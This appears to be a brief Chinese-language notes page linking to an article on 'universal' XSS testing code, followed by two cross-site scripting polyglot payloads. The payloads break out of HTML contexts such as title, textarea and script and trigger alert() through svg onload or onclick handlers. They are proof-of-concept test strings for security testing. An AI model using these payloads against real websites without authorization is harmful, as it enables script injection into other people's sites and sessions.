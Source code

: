 # 文章
[XSS测试万能代码 (菜鸟翻译笔记)](https://www.jianshu.com/p/3f16269c83db)
```html
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```
```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
